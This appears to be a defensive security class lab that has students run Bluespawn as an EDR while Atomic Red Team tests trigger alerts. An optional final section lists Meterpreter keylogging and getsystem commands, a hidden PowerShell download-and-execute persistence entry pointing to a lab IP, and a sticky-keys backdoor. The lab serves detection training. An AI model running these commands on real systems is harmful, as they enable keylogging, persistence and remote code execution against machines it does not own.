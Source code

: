 

# Bluespawn

MITRE Shield
------------

Applicable MITRE Shield techniques:
* [DTE0034](https://shield.mitre.org/techniques/DTE0034) - System Activity Monitoring
* [DTE0007](https://shield.mitre.org/techniques/DTE0007) - Behavioral Analytics
* [DTE0021](https://shield.mitre.org/techniques/DTE0021) - Hunting

Instructions
------------

In this lab we will be using Bluespawn as a stand-in for an EDR system.  Normally full EDRs like Cylance and Crowdstrike are very expensive and tend not to show up in classes like this.  However, the folks at University of Virginia have done an outstanding job with BlueSpawn.

BlueSpawn will monitor the system for "weird" behavior and note it when it occurs. For the money, it is great.

In this lab, we will be starting BlueSpawn and then running Atomic Red Team to trigger a lot of alerts.

Let's get started by opening a Terminal as Administrator:


![](attachments\Clipboard_2020-06-12-10-36-44.png)


Now, let's open a command Prompt:

![](attachments\Clipboard_2020-06-16-09-53-18.png)

Next, let’s change directories to tools and start Bluespawn:
C:\Users\adhd>`cd \tools`

C:\tools>`BLUESPAWN-client-x64.exe --monitor --level Cursory`


![](attachments\Clipboard_2020-06-16-09-46-00.png)

Now, let’s use Atomic Red Team to test the monitoring with BlueSpawn:

First, we need to open a PowerShell Prompt:

![](attachments\Clipboard_2020-06-16-09-55-12.png)

Next, in the PowerShell Window we need to navigate to the Atomic Red Team directory and import the powershell modules:

PS C:\Users\adhd> `cd C:\AtomicRedTeam\invoke-atomicredteam\`

PS C:\AtomicRedTeam\invoke-atomicredteam> `Import-Module .\Invoke-AtomicRedTeam.psm1`

Now, we need to invoke all the Atomic Tests.

Special note...  Don't do this in production...  Ever.  Always run tools like Atomic Red Team on test systems.  We recommend that you run in on a system with your EDR/Endpoint protection in non-blocking/alerting mode.  This is so you can see what the protection would have done, but it will allow the tests to finish.

PS C:\AtomicRedTeam\invoke-atomicredteam> `Invoke-AtomicTest All`

If you get any “file exists” questions or errors, just select Yes.

It should look like this:

![](attachments\Clipboard_2020-06-16-09-48-18.png)

Please note, there will be some errors when this runs.  This is normal.


Only let this run for 15-30 seconds!!!  Kill it with Ctrl + c!!

You should be getting a lot of alerts with Bluespawn Switch tabs in your Terminal to see them:

![](attachments\Clipboard_2020-06-16-09-47-26.png)


Now, let’s go back to the PowerShell prompt and clean up:

PS C:\AtomicRedTeam\invoke-atomicredteam> `Invoke-AtomicTest All -Cleanup`

It should look like this:

![](attachments\Clipboard_2020-06-23-13-36-10.png)

# If you have more time

Feel free to exploit system using the commands we went through in AppLocker or Sysmon and then run the following Meterpreter commands


Run commands

meterpreter > `keyscan_start`

meterpreter > `keyscan_dump`

![](attachments\Clipboard_2020-06-15-13-52-00.png)



meterpreter > `shell`

C:\> `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Payload /d "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://172.20.243.5:80/a'))\"" /f`

C:\>  `reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"`

![](attachments\Clipboard_2020-06-15-14-00-53.png)



meterpreter >`getsystem`

![](attachments\Clipboard_2020-06-15-13-52-28.png)


![](attachments\Clipboard_2020-06-15-13-56-34.png)




